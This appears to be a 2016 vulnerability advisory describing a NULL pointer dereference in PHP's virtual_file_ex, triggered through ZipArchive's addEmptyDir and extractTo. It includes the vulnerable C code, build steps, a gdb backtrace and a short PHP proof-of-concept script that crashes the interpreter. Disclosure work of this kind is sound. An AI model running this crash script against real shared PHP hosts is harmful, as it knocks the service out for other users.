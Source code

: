 ```yaml
---
title: "PHP NULL pointer dereference in virtual_file_ex (v. master-Git-2016-02-09)"
date: 2016-02-09 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-02-09
* _Release date_: 2016-02-09
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=71561

A malicious user could create an evil php script in order to crash the PHP interpreter. The issue could compromise the availability of the PHP interpreter in the web hosting services, where the PHP interpreter could be shared among some users.

`virtual_file_ex` method in the `zend_virtual_cwd.c` file uses a `char *` argument that could be NULL. I identified this issue through `extractTo` method in the PHP Zip extension, opening a not existing ZIP archive.

`zend_virtual_cwd.c`:

```c
CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath)
{
    // path could be NULL
    int path_length = (int)strlen(path);
```

The issue is triggerable via `addEmptyDir` and `extractTo` Zip extension methods, if not existing zip archive will be opened.
Vulnerable code into `extractTo` method (`php_zip.c`) is shown below:

```c
/* Extract all files */
// zip_get_num_files returns 1 (intern->nentry is equal to 1) because, I think, addEmptyDir incremented it.
int filecount = zip_get_num_files(intern);

if (filecount == -1) {
    // ...
}

for (i = 0; i < filecount; i++) {

    // zip_get_name returns NULL
    char *file = (char*)zip_get_name(intern, i, ZIP_FL_UNCHANGED);

    // php_zip_extract_file uses virtual_file_ex
    if (!php_zip_extract_file(intern, pathto, file, strlen(file))) {
        RETURN_FALSE;
    }
}
```

# PHP build command

```
./buildconf --force
./configure --prefix=/opt/php --enable-debug --enable-zip
make && make install
```

# Test script

```php
<?php

$zip = new ZipArchive();

// Open a not existing zip file
$zip->open("/dev/shm/notexisting.zip", ZIPARCHIVE::CREATE);

$zip->addEmptyDir("foo");

// Program terminated with signal SIGSEGV, Segmentation fault.
$zip->extractTo("/dev/shm/");

$zip->close();

?>
```

# Expected result

PHP interpreter should not crash.
No actions could be performed by `extractTo` method because the zip file does not physically exist, or the "in-memory" zip archive could be handled as a normal archive (if possible).

# Actual result

PHP interpreter crash with a SIGSEGV.

```
$ gdb) where
#0  strlen () at ../sysdeps/x86_64/strlen.S:106
#1  0x000000000079055a in c_ziparchive_extractTo (execute_data=0x7f3656a15120, return_value=0x7f3656a15100) at /php-src/master/src/ext/zip/php_zip.c:2671
#2  0x0000000000891c3a in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/master/src/Zend/zend_vm_execute.h:1024
#3  0x0000000000890610 in execute_ex (ex=0x7f3656a15030) at /php-src/master/src/Zend/zend_vm_execute.h:422
#4  0x0000000000890721 in zend_execute (op_array=0x7f3656a82000, return_value=0x0) at /php-src/master/src/Zend/zend_vm_execute.h:466
#5  0x00000000008362e8 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /php-src/master/src/Zend/zend.c:1427
#6  0x00000000007a76ae in php_execute_script (primary_file=0x7ffd6efe8db0) at /php-src/master/src/main/main.c:2484
#7  0x0000000000908079 in do_cli (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:974
#8  0x0000000000909043 in main (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:1345
```

# Notes

* 2016-02-09: Vendor notification.
* 2016-02-09: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.
